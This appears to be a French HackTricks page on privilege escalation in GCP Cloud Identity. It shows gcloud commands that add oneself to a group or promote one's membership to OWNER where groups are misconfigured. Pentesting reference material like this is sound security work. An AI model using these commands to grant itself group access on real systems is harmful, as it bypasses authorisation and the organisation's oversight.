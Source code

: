 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

Pour plus d'informations sur le service cloudidentity, consultez cette page :

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Ajoutez-vous à un groupe

Si votre utilisateur a suffisamment de permissions ou si le groupe est mal configuré, il pourrait être en mesure de se faire membre d'un nouveau groupe :
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### Modifier l'appartenance au groupe

Si votre utilisateur a suffisamment de permissions ou si le groupe est mal configuré, il pourrait être en mesure de se faire PROPRIÉTAIRE d'un groupe dont il est membre :
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
